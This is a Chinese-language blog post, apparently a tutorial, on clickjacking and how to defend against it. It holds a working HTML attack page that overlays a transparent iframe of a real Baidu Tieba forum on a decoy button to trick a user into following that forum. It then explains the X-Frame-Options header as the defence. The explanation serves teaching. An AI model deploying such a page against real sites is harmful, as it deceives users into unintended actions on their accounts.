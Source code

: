 # 点击劫持

## 攻击举例

```html
<!DOCTYPE HTML>
<html>
    <head>
        <title>点击劫持</title>
        <style>
            html,
            body,
            iframe {
                display: block;
                height: 100%;
                width: 100%;
                margin: 0;
                padding: 0;
                border: none;
            }

            iframe {
                opacity: 0.5; 
                /* opacity:0时点击劫持 */
                filter: alpha(opacity=0);
                position: absolute;
                z-index: 2;
            }

            button {
                position: absolute;
                top: 355px;
                left: 462px;
                z-index: 1;
                width: 72px;
                height: 26px;
            }
        </style>
    </head>

    <body>
        那些不能说的秘密
        <button>查看详情</button>
        <iframe src="http://tieba.baidu.com/f?kw=%C3%C0%C5%AE"></iframe>
    </body>
</html>
```

![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/tieba-clickjacking.png)
我想代码配上图已经一目了然了，所谓点击劫持就是通过iframe引入我们想要劫持的网站，将其opacity设为0，这个网站就变成透明的，然后在我们的页面设置一些诱导性的按钮，让用户去点击这个按钮，实际上用户是点击了我们劫持的网站。在我们的示例中，我们通过点击劫持为【美女吧】骗取了一个关注

## 点击劫持防范

我们打开上面的页面，按下F12然后选择Network，查看请求贴吧html页面的Response Headers
![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/tieba-response-headers.png)
至于为什么查看Response Headers我们这里先不谈

我们尝试把上面的iframe的src改为如下
```html
<iframe src="https://github.com/caistrong"></iframe>
```
再次刷新我们的点击劫持html页面，发现不能像劫持百度贴吧一样劫持Github，我们看到控制台的报错如下
![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/github-error.png)
发现我们的劫持行动失败了

我们新建标签页打开 https://github.com/caistrong 这个网址，再次查看请求html的Response Headers
![](https://raw.githubusercontent.com/caistrong/Blog/master/_posts/clickjacking/github-response-headers.png)

我们发现一个与贴吧的Response Headers不同的地方
```bash
X-Frame-Options: deny
```

这个响应头就是Github成功防范我们点击劫持的关键所在，参考[MDN X-Frame-Options响应头](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/X-Frame-Options)

简单讲就是在后端返回响应html页面的时候，响应头里面增加X-Frame-Options: deny或者X-Frame-Options: sameorigin，可以避免攻击者在自己的页面通过iframe嵌入我们开发的页面。
